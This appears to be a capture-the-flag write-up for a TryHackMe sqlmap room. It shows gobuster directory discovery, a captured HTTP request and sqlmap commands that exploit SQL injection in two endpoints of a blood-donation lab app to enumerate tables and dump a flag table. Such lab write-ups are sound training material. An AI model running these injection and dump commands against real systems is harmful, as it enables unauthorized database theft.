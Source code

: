 # sqlmap

{% embed url="https://tryhackme.com/room/sqlmap" %}

Upon visiting the webpage, I was greeted with a plain page without any useful external links or information.

### Finding the first directory

I used `gobuster` with a common word list from [Daniel Miessler's list](https://github.com/danielmiessler/SecLists):

```bash
$ gobuster dir -u http://<target>.com/ -w DanielMiesslerSecLists/Discovery/Web-Content/common.txt
```

But did not receive any positive results. From the description of the challenge, it appears that this application relates  to "_Blood Donations_". Thus, I tried the directory `/blood`, and it worked.

### SQL Injection with `sqlmap`

Navigating through the application while behind Burp suite proxy, I found 2 requests within the application that are potentially vulnerable to an SQL injection attack. This is due to the nature of the request being likely to return a value retrieved directly from the database.

1. **`POST /blood/nl-search.php`**

```http
POST /blood/nl-search.php HTTP/1.1
Host: 10.10.244.206
Content-Length: 16
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.244.206
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.244.206/blood/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=pdgklb30hibf0kp13ldkn888l0
Connection: keep-alive

blood_group=A%2B
```

```
$ sqlmap -r req.txt -p blood_group --current-user
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

```bash
$ sqlmap -r req.txt -p blood_group -D blood --tables
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```bash
$ sqlmap -r req.txt -p blood_group -D blood -T flag --dump
```



<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>



2. `GET blood/view.php?id=1`&#x20;

The outputs are the same for each options as the ones above respectively.&#x20;

```bash
$ sqlmap http://10.10.181.14/blood/view.php?id=1 --current-user
```

```bash
$ sqlmap http://10.10.181.14/blood/view.php?id=1 -D blood --tables
```

```bash
$ sqlmap http://10.10.181.14/blood/view.php?id=1 -D blood -T flag --dump
```
